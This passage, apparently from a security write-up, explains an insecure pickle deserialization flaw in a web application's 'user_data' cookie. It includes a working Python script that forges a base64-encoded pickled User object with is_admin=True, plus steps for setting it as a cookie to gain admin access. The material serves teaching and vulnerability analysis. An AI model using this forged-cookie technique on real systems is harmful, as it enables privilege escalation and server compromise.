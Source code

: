3. **Server Deserializes the Malicious Cookie:**
   - When the server receives a request with the manipulated `user_data` cookie, it deserializes it using `pickle.loads`.
   - Since the `is_admin` attribute is now `True`, the server treats the user as an administrator, granting unauthorized access.

4. **Potential for Code Execution:**
   - Beyond privilege escalation, a crafted pickle payload can execute arbitrary code during deserialization. This can lead to complete server compromise, data theft, or other malicious activities.

### **Implications**

- **Privilege Escalation:** Unauthorized users gain administrative privileges.
- **Remote Code Execution (RCE):** Attackers execute arbitrary code on the server, potentially taking full control.
- **Data Integrity and Confidentiality Breach:** Manipulated data can corrupt the application's state or expose sensitive information.

---

## **2. Exploitation Demonstration**

To illustrate, here's how an attacker might exploit this vulnerability to gain administrative privileges:

1. **Generate a Malicious Cookie Payload:**
   ```python
   import pickle
   import base64

   class User:
       def __init__(self, username, is_admin=False):
           self.username = username
           self.is_admin = is_admin

   # Create a user with admin privileges
   malicious_user = User('Hacker', is_admin=True)

   # Serialize and encode the user object
   serialized_user = pickle.dumps(malicious_user)
   encoded_user = base64.b64encode(serialized_user).decode()

   # The 'encoded_user' string can now be set as the 'user_data' cookie
   print(encoded_user)
   ```

2. **Set the Malicious Cookie:**
   - Use browser developer tools or a script to set the `user_data` cookie to the `encoded_user` value generated above.

3. **Access the Application:**
   - When the server processes the request, it deserializes the `user_data` cookie.
   - The `User` object now has `is_admin=True`, and the attacker sees the admin success message.

---